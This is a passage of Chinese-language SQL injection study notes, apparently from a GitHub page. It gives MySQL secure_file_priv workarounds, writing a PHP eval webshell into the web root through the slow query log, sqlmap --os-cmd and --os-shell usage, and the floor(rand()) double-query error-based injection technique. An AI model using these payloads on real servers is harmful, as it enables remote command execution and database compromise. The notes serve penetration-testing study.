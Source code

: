         - ```bash
            解决办法：
            
            在Windows下可在my.ini的[mysqld]里面，添加secure_file_priv=
            
            在linux下可在/etc/my.cnf的[mysqld]里面，添加secure_file_priv=
            ```

        - **使用慢查询日志绕过此限制**

            ```sql
            show variables like '%slow_query_log%';			#查看慢查询日志开启情况
            
            set global slow_query_log=1						#开启慢查询日志
            
            set global slow_query_log_file='D:/phpStudy/WWW/evil.php;    #修改日志文件存储的绝对路径
            
            '<?php @eval($_POST[1]);?>' or sleep(11);		#写入shell
            
            show global variables like '%long_query_time%'; #使用慢查询日志时，只有当查询时间超过系统时间(默认为10秒)时才会记录在日志中，使用如下语句可查看系统时间
            ```

- ```sql
    --os-cmd="net user"
    #交互式命令执行，注意在使用交互式方式时需要知道网站的绝对路径，执行成功之后在绝对路径下创建文件返回结果，然后再自动删除。
    
    --os-shell
    #写webshell，会生成两个文件，tmpbshrd.php和tmpucnll.php，分别为命令执行和文件上传webshell。
    #注意:关闭sqlmap文件就会被删除。
    
    ```

### 双查询报错注入(一次最多爆出32位字符)
SQL语句中有语法错误，根据返回的错误信息，可以察觉到一些数据库信息。
**适用场景**：**没有数据回显，条件正确与否结果一样，sleep没区别，但是错误信息会打印出来**
**利用方式**:     利用语法错误，把value在前端输出

- 部分不允许有语法错误的函数

    ```sql
    updatexml()、
    geometrycollection()、
    multipoint()、
    polygon()、multipolygon()、linestring()、multilinestring()、exp()
    ```

- 原理

    ```sql
    select count(*),floor(rand(0)*2) as a  from table group by a
    
    #Group by 数据里面如果是表达式列名 将会再次执行表达式,
    #Count(*)函数与group by函数同时用时，会建立一个虚拟表，取原表第一条数据进行计算，如果这时候键值不存在（也就是之前group by没有分行过的） 就会插入一条数据进入虚拟表 这时候键值为group by 后面所带的数据 ，然后取原表第二条数据，如果键值存在，则 count加1 不插入新键值， 如果键值不存在则插入新键值。那么问题来了如果 group by 后是表达式列名，当键值不存在插入时，可能会发生插入数据键值是group by后第二次执行表达式的键值 ，当第二次插入时数据键值不存在，进行插入新键值 ，但group by 后第二次执行表达式的键值却存在，这时候会出错（根据数据库完整性 不可能同时出现两个相同键值）。例如第一次floor为0，group by a 为1，键值为1，第二次 floor 0，group by a 1，因为0不是键值，所以会插入 a 1，但1已经存在所以会报错。数据是先查询后插入到虚拟表的。
    ```
